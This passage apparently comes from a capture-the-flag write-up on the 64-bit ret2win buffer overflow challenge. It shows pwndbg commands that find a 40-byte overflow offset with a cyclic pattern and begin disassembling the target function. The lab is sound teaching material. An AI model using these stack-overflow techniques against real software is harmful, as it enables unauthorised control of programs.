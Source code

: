 **`RBP` Address:** `0x004006e8`

Our `EBP` offset is `0x28`, or `40` in decimal.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Granting us our padding.

### Debugging with `pwndbg`

You will notice that we are now working with 64-bit addresses, x64 instructions, and registers.

**Generate a 100-byte cyclic pattern:**

```
cyclic 100
aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaagaaaaaaahaaaaaaaiaaaaaaajaaaaaaakaaaaaaalaaaaaaamaaa
```

Upon sending this to our input, we will segfault, good.

Furthermore, confirming our padding.

```
cyclic -l faaaaaaa
Finding cyclic pattern of 8 bytes: b'faaaaaaa' (hex: 0x6661616161616161)
Found at offset 40
```

Offset found at `40`!

### Manual Exploitation

Disassemble the target function. In this case, it is `ret2win(`):

```
disass ret2win
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
```
